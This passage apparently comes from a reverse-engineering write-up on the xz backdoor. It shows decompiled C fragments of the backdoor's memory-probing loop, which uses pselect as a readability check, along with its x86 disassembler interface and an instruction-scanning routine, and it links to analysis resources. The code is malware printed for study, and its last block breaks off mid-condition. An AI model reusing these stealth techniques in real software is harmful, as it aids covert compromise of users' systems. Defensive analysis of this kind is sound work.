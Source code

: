 ```c
        if ( !standard )
          break;
        if ( !standard->__errno_location )
          break;
        pselect = standard->pselect;
        if ( !pselect )
          break;
        timeout.tv_nsec = 1LL;
        if ( pselect(1, 0LL, 0LL, 0LL, &timeout, sigmask) < 0 )
        {
          errno = (api_ctx->standard->__errno_location)(1LL);
          if ( *errno == EFAULT || !sigmask )
          {
            *errno = 0;
            return Error;
          }
        }
        sigmask += 1024;
        if ( sigmask >= &addr[size] )
          return Success;
        timeout.tv_sec = 0LL;
      }
    }
    return Error;
  }
  return Success;
}
```

## Disassembler

To search for specific addresses, instructions, string references, the backdoor implements a simplified x86 disassembler.

The function performing disassembly can be found at `.text.x86_codd:0000000000000010` in analysed object file:

```c
Status decode_insns(insn_t *insn, uint8_t *start_ea, uint8_t *end_ea);
```

The partially reconstructed `insn_t` structure is documented in [4].
Note that the `xzre` project allows us to test disassembler on an arbitrary data ([5]).

An example of the backdoor using its disassembler is shown below:

```c
Status __fastcall find_lea_displ(uint8_t *start_ea, uint8_t *end_ea, insn_t *insn, uint64_t lea_displ)
{
  uint32_t *insn_p; // rdi
  size_t i; // rcx
  insn_t insna; // [rsp+8h] [rbp-80h] BYREF

  if ( secret_data_update_for_ret(0x1C8u, 0, 0x1Eu, 0) )
  {
    insn_p = &insna;
    for ( i = 22LL; i; --i )
      *insn_p++ = 0;
    if ( !insn )
      insn = &insna;
    while ( start_ea < end_ea )
    {
      if ( decode_insns(insn, start_ea, end_ea)
        && insn->opcode == INSN_LEA0
        && (insn->rex_b & 0x48) == 0x48
```

[1]: https://gynvael.coldwind.pl/?lang=en&id=782
[2]: https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01
[3]: https://en.wikipedia.org/wiki/Radix_tree
[4]: https://github.com/smx-smx/xzre/blob/main/xzre.h
[5]: https://github.com/smx-smx/xzre/blob/ff3ba18a39bad272ff628bb759ed5c897cf441b3/xzre.c#L48